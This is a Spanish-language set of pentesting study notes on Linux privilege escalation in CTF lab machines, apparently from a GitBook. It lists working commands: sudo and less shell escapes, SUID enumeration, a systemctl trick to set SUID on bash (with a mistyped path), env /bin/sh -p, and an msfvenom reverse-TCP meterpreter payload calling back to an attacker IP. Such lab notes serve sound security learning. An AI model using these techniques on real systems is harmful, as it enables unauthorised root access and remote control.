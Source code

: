 ```yaml
---
icon: '7'
---
```


# Escalada de Privilegios + Post Explotación

## Escalada de Privilegios en Linux – Sudo -l

{% embed url="https://hackmyvm.eu/machines/machine.php?vm=Friendly" %}

Subimos el payload a través del protocolo FTP. Nos ponemos en escucha mientras carga la página para la **Reverse Shell**. Hacemos tratamiento de la **TTY**.&#x20;

{% embed url="https://gtfobins.github.io/" %}

```bash
sudo -l
```

Con el comando proporcionado en la página debemos de poner la ruta absoluta.

## Escalada de Privilegios en Linux – Sudo -l | Parte 2

{% embed url="https://tryhackme.com/room/brooklynninenine" %}

{% embed url="https://gtfobins.github.io/gtfobins/less/#suid" %}

```bash
sudo -l 
sudo /usr/bin/less /etc/profile
!/bin/sh
```

## Escalada de Privilegios en Linux – Binarios SUID

{% embed url="https://tryhackme.com/room/vulnversity" %}

Otra técnica muy frecuente para escalar privilegios en Linux es la enumeración de binarios **SUID**, donde podremos conocer que binarios tienen **setuid 0** y podemos utilizarlos para escalar privilegios en Linux.

```bash
find / -perm -4000 2>/dev/null
```

En el directorio `/tmp`, creamos un archivo en **bash** con este contenido.

```
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "chmod u+s /in/bash"
[Install]
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
/bin/systemctl enable --now $TF
```

Ejecutamos.

```bash
bash archivo.sh
```

Hemos abusado de un binario. Ya somos **root**.

```bash
bash -p
```

## Escalada de Privilegios en Linux – Binarios SUID | Parte 2

{% embed url="https://vulnyx.com/#basic" %}

```
find / -perm -4000 2>/dev/null
```

{% embed url="https://gtfobins.github.io/gtfobins/env/" %}

```bash
env /bin/sh -p
```

## Escalada de Privilegios Automática con Metasploit en Linux & Windows

{% embed url="https://drive.google.com/file/d/11oWEHwqu9AOKNwBU483abdGhnxJaZKT5/view?usp=sharing" %}

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP máquina atacante> LPORT=4444 -f exe -o virus.exe
```

